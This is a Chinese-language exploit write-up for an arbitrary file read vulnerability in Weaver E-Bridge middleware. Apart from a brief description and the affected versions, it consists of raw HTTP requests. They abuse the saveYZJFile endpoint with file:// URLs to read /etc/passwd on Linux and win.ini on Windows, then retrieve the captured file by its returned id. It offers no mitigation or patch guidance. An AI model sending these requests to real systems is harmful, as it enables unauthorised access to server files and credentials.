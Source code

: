 泛微 E-Bridge 云桥任意文件读取
==============================

一、漏洞简介
------------

泛微云桥（E-Bridge）是上海泛微公司在"互联网+"的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

二、漏洞影响
------------

2018-2019 多个版本。

三、复现过程
------------

### 服务器Linux：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
    Host: www.0-sec.org:8088
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: ecology_JSessionId=abc3I_8E3ZP75a_tnGnrx; testBanCookie=test; JSESSIONID=3kqlxwz8wo04x6cs4dlaovn; EBRIDGE_JSESSIONID=3DD7A4B45D85CAE1AC75F8FF6DEB7556
    Connection: close

![1.png](./resource/泛微E-Bridge云桥任意文件读取/media/rId25.png)

### windows服务器：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=182ED2E3025C11EA9ADDC07761F56DBA
    Connection: close

![2.png](./resource/泛微E-Bridge云桥任意文件读取/media/rId27.png)

### 读取文件

    GET /file/fileNoLogin/35acd348e86549ffb33d7f531350391e HTTP/1.1
    Host: www.0-sec.org:8088
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=BABB53753778ED19791B6F606E5B0D77
    Connection: close

**35acd348e86549ffb33d7f531350391e为上个包返回的id**

![3.png](./resource/泛微E-Bridge云桥任意文件读取/media/rId29.png)

